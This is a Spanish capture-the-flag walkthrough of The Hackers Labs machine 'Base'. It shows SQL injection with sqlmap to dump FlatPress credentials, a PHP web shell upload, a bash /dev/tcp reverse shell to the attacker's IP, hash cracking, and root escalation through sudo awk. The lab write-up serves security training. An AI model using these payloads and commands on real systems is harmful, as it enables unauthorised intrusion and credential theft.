 Máquina "Base" de [The Hackers Labs](https://thehackerslabs.com)

Autor: r0dgar

Dificultad: Avanzado

# RECONOCIMIENTO

Comenzamos lanzando un escaneo de `nmap` a la ip que se nos brindó (en mi caso "192.168.153.55"):

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 192.168.153.55 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Tue Sep 17 18:09:11 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 192.168.153.55
Nmap scan report for 192.168.153.55
Host is up, received arp-response (0.0026s latency).
Scanned at 2024-09-17 18:09:12 -03 for 10s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 c8:5f:17:62:8c:26:0a:7b:b2:c6:07:33:31:64:84:30 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPc+sW2rJ9spBEuudmTE24Jhc7h4M+q77B8rG7d1f/L4H1Yc5TfhsQgYpm9JkS1liOTn8pBNyt2RZgjE3KdDDAU=
|   256 e3:92:58:d8:50:ac:00:5a:49:02:d7:e9:33:18:47:8c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIO0KQXb6whCSXP4pzCxG0CRwQ0Z9OGz4zu9PHRMS5498
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
|_http-favicon: Unknown favicon MD5: 315957B26C1BD8805590E36985990754
|_http-generator: FlatPress fp-1.2.1
|_http-title: FlatPress
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.62 (Debian)
8080/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
|_http-title: Search Page
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:C5:86:BC (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep 17 18:09:23 2024 -- 1 IP address (1 host up) scanned in 11.51 seconds
```

Como vemos, está abierto el puerto `22 de OpenSSH` y el `80 y 8080 con ambos corriendo apache httpd`.

Como vemos que está abierto el 80, por lo que continuaremos desde el navegador.

#### Puerto 80:

![80](./img/80.png)

Tenemos un flatpress, por ahora no podemos hacer nada, por lo que tendremos que buscar credenciales.

#### Puerto 8080:

![8080](./img/8080.png)

Al parecer podemos buscar usuarios, ya que si buscamos "Juan" (porque hay un mensaje que dice "Hola Juan") veremos como una base de datos, sabiendo esto podriamos probar en poner una comilla y ver que pasa. Si lo hacemos veremos que queda en blanco, pero para confirmar si estamos realmente frente a un `SQLi`, podemos poner un payload simple que nos debe mostrar todos los usuarios: `'or 1=1-- -`.

![sqli](./img/sqli.png)

Como vemos nos mostró todos los usuarios, por lo que hemos confirmado la presencia de un sql injection.

Ahora usaremos `sqlmap` para ver las demás bases de datos:

```css
sqlmap -u "http://192.168.153.55:8080/index.php" --forms --batch --dbs
```

 

```
available databases [6]:
[*] FlatPress
[*] information_schema
[*] mysql
[*] Nombres
[*] performance_schema
[*] sys
```

tenemos la base de datos del "Flatpress", por lo que veremos las tablas

```css
sqlmap -u "http://192.168.153.55:8080/index.php" --forms --batch -D FlatPress --tables
```

```css
[1 table]
+-------+
| login |
+-------+
```

viendo que solo hay una simplemente la leeremos

```css
sqlmap -u "http://192.168.153.55:8080/index.php" --forms --batch -D FlatPress -T login --dump
```

```css
+----+--------+-----------------------+
| id | user   | password              |
+----+--------+-----------------------+
| 1  | r0dgar | SNIETbkGBCnhXXXXXXXXX |
+----+--------+-----------------------+
```

Ya tenemos credenciales, por lo que nos logeamos y listo.

# INTRUSION

Si vamos a `Maintain > Check for updates` podremos ver que es la versión 1.2.1, por lo que si buscamos un exploit o algo de información, encontraremos que se pueden subir archivos que deriva a un RCE(remote code execution). Si lo leemos bien, veremos que solo tenemos que ir a `Uploader` y ahí subir un archivo ".php" que contenga lo siguiente:

```css
GIF89a;
<?php
system($_GET['cmd']);
?>
```

Una vez subido vamos a `Media manager` y tocamos el nombre de nuestro payload, ahora simplemente escuchamos con netcat:

```css
nc -nlvp <puerto>
```

y en la url ponemos lo siguiente:

```css
<url>?cmd=bash -c 'bash -i >%26 /dev/tcp/<nuestra ip>/<puerto> 0>%261'
```

# ESCALADA DE PRIVIEGIOS

### www-data

Antes de hacer algo haremos el tratamiento de la tty, para hacerlo ejecutamos estos comandos:

```css
script /dev/null -c bash # Lo ejecutamos y presionamos ctrl+Z
stty raw -echo;fg # Lo ejecutamos y escribimos "reset xterm", luego enter
export TERM=xterm && export SHELL=bash
```

ahora ya está todo listo para continuar.

Si vamos a "/opt/", veremos un hash, por lo que si nos lo guardamos y lo crackeamos con `john`, obtendremos una contraseña "secret". Ahora solo probamos en ejecutar `su <usuario>` y poner la contraseña. Una vez hecho eso pivotaremos a "pedro".

### Pedro

Si ejecutamos `id`, veremos lo siguiente:

```css
uid=1001(pedro) gid=1001(pedro) grupos=1001(pedro),4(adm)
```

como vemos pertenecemos al grupo "adm", por lo que ahora buscaremos archivos que pertenezcan a ese grupo:

```css
find / -group adm 2>/dev/null
```

```css
/var/log/apt/term.log
/var/log/apache2
/var/log/apache2/access.log.1
/var/log/apache2/other_vhosts_access.log
/var/log/apache2/access.log
/var/log/apache2/error.log.2.gz
/var/log/apache2/access.log.2.gz
/var/log/apache2/other_vhosts_access.log.1
/var/log/apache2/error.log
/var/log/apache2/error.log.1
/var/log/cups/access_log.2.gz
/var/log/cups/access_log.1
/var/log/cups/error_log
/var/log/cups/access_log
```

Al parecer podemos leer logs del sistema.

Si nos fijamos en la carpeta "/home/" veremos que hay un usuario llamado "flate", por lo que podriamos leer algunos logs pero filtrando por la palabra "flate":

```css
grep "flate" /var/log/.....
```

luego de leer algunos, vemos esto en `/var/log/apache2/access.log.1`:

```css
203.0.113.56 - flate [12/Sep/2024:12:03:55 +0000] "POST /login HTTP/1.1" 401 4812 "http://example.com/login" "Mozilla/5.0 (Windows NT 10.0; Win64; x64)" "username=flate&password=HPAbcmOgSjidaoWkXUQjw"
```

Ahora que tenemos la contraseña de "flate", escalaremos nuevamente con `su flate` y su contraseña.

### Flate

Si ejecutamos `sudo -l` para ver si podemos ejecutar algo como root, veremos lo siguiente:

```css
Matching Defaults entries for flate on TheHackersLabs-Base:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User flate may run the following commands on TheHackersLabs-Base:
    (root) NOPASSWD: /usr/bin/awk
```

Por lo que si buscamos en [GTFObins](https://gtfobins.github.io/) veremos que podemos escalar con `awk` si ejecutamos esto:

```css
sudo awk 'BEGIN {system("/bin/bash")}'
```

Una vez ejecutado, **ya seremos root**:

![root](./img/root.png)

Gracias por leer....